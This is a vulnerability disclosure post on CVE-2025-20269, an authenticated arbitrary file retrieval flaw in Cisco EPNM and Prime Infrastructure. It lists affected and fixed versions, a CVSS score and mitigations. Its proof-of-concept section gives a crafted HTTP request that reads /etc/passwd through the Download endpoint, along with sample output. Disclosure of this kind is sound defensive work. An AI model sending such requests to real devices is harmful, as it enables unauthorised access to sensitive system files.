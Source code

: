 ```yaml
---
title:  "CVE-2025-20269: Cisco EPNM and Prime Infrastructure Arbitrary File Retrieval"
description: "CVE-2025-20269 is a vulnerability in the web-based management interface of Cisco Evolved Programmable Network Manager (EPNM) and Cisco Prime Infrastructure. It allows a remote, authenticated, low-privileged attacker to retrieve arbitrary files from the underlying file system by sending crafted HTTP requests. Cisco has released software updates to address the issue, and no workarounds are available."
authors: ["Paolo Grossetti, Matteo Piciarelli"]
date:   2025-08-27
tags: ["CVE", "Cisco", "EPNM", "Prime-Infrastructure", "File Disclosure", "POC"]
thumbnail:
  url: img/2025-08-27-CVE-2025-20269/cve-2025-20269.jpg
  author: Ideogram
  authorURL: https://ideogram.ai/
---
```


## Introduction
A vulnerability has been identified in the web-based management interface of **Cisco Evolved Programmable Network Manager (EPNM)** and **Cisco Prime Infrastructure**, which could allow a remote, authenticated, low-privileged attacker to retrieve arbitrary files from the underlying file system on an affected device.

This issue has been assigned **CVE-2025-20269**.

## Technical description

The vulnerability is caused by **insufficient input validation** of specific HTTP requests sent to the management web interface.  
An authenticated attacker could send specially crafted HTTP requests to read sensitive files from the affected device.

- **Type of vulnerability**: Arbitrary File Retrieval  
- **Authentication**: required (low-privileged user)  
- **Impact**: access to sensitive files on the system  
- **Workaround**: not available  
- **Patch**: released by Cisco

## CVSS Score

| Vulnerability  | CVSSv3.1  | Attack Vector |
| --- | --- | --- |
| Sensitive Information Disclosure | 6.5 | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N/E:X/RL:X/RC:X |

## Affected products
- **Cisco EPNM**: all releases up to 8.0 included  
  - Fixed in: **8.1.1**  
- **Cisco Prime Infrastructure**: all releases up to 3.9 and 3.10  
  - Fixed in: **3.10.6 Security Update 02**

## Impact
A successful exploit could allow the attacker to gain access to **sensitive files** on the affected system.  
This access may compromise the **confidentiality** of data and provide information useful for further attacks.

## Proof of Concept (PoC)

### HTTP request
```text
GET /webacs/Download?svc=multipath&downloadZipFileName=logFiles&downloadFileListWithPath=/etc/passwd& HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=...;


```

### Expected output

The response contains a ZIP file with the file specified in the request.

```
root:X:0:0:root:/root:/bin/bash
bin:X:1:1:bin:/bin:/sbin/nologin
daemon:X:2:2:daemon:/sbin:/sbin/nologin
adm:X:3:4:adm:/var/adm:/sbin/nologin
```

### Notes
- The vulnerability was discovered in Cisco EPNM 7.1.3
- An authenticated low-privileged user is required  

## Mitigations
Cisco has released software updates that fix this vulnerability. No workarounds exist.  
Administrators should upgrade to a non-vulnerable release, as indicated in the “Fixed Software” section of the official advisory.

## References
- [Cisco Security Advisory – cisco-sa-pi-epnm-TET4GxBX](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-pi-epnm-TET4GxBX) 
- [https://www.cve.org/CVERecord?id=CVE-2025-20269](https://www.cve.org/CVERecord?id=CVE-2025-20269)
- [CVE-2025-20269 – NVD entry](https://nvd.nist.gov/vuln/detail/CVE-2025-20269)

## Credits
Cisco thanks **Paolo Grossetti** and **Matteo Piciarelli** of Consulthink S.p.A. for responsibly reporting this vulnerability.
